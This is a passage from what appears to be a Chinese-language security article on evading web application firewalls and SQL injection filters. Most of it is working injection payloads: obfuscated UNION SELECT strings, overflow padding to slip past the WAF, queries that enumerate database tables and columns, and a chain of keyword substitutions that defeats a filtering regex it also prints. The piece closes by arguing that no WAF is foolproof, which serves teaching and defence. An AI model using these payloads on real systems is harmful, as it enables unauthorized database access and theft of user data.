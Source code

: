 举例
<pre class="highlight">?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
</pre>
示例0xA*1000指0xA后面”A"重复1000次一般来说对应用软件构成缓冲区溢出都需要较大的测试长度这里1000只做参考也许在有些情况下可能不需要这么长也能溢出

### i) 整合绕过

整合的意思是结合使用前面谈到的各种绕过技术单一的技术可能无法绕过过滤机制但是多种技术的配合使用成功的可能性就会增加不少了。这一方面来说关系到总体与局部和另一方面则是多种技术的使用创造了更多的可能性组合除非每一种技术单独都无法使用否则它们能产生比自身大得多的能量。

举例
<pre class="highlight">z.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4…
id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/+like+database()– -
?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e--  
</pre>

## 0x03 SQLi Filter的实现及Evasion

* * *

SQL Injection时用得最多的一些关键字如下
<pre class="highlight">and, or, union, where, limit, group by, select, ', hex, substr, white space
</pre>
对它们的检测完整正则表达式为
<pre class="highlight">preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr|\s)/i', $id)
</pre>
Filter Evasion在[Beyond SQLi: Obfuscate and Bypass](http://www.exploit-db.com/papers/17934/)和[Mysql注入科普](http://drops.wooyun.org/tips/123)可以看到比较详细的解释

这里只做简化的说明其应对方式依次为
<pre class="highlight">***note***:"=&gt;"左边表示会被Filtered的语句，"=&gt;"右边表示成功Bypass的语句，左边标红的为被Filtered的关键字，右边标蓝的为替代其功能的函数或关键字

and =&gt; &amp;&amp; 　　or =&gt; ||

union select user, password from users　　 =&gt;　　1 || (select user from users where user_id = 1) = 'admin

1 || (select user from users where user_id = 1) = 'admin'　　=&gt;　　1 || (select user from users limit 1) = 'admin

1 || (select user from users limit 1) = 'admin' =&gt;　　1 || (select user from users group by user_id having user_id = 1) = 'admin'
1 || (select user from users group by user_id having user_id = 1) = 'admin' =&gt;　1 || (select substr(group_concat(user_id),1,1) user from users )=1
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 =&gt;  1 || 1 = 1 into outfile 'result.txt'　或者  1 || substr(user,1,1) = 'a'　
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 　=&gt;　　1 || user_id is not null 或者 1 || substr(user,1,1) = 0x61
　　　或者 1 || substr(user,1,1) = unhex(61)　　//　' Filtered
1 || substr(user,1,1) = unhex(61)　　=&gt;   1 || substr(user,1,1) = lower(conv(11,10,36))
1 || substr(user,1,1) = lower(conv(11,10,36)) =&gt;　　1 || lpad(user,7,1)
1 || lpad(user,7,1)　　=&gt;　　1%0b||%0blpad(user,7,1)　　// ' ' Filtered
</pre>
从上面给出的示例来看没有绝对的过滤即便平时构建一个正常SQL语句的全部关键字都被过滤了我们也还是能找到Bypass的方法。普世的阳光和真理尚且照不到每一个角落人为构建出来的一个工具WAF就更加不可能尽善尽美了。我们可以相信WAF能为我们抵挡很多攻击但是绝不能百分之一百的依赖它就算它有着世上最为健全的规则它本身也是会存在缺陷的。
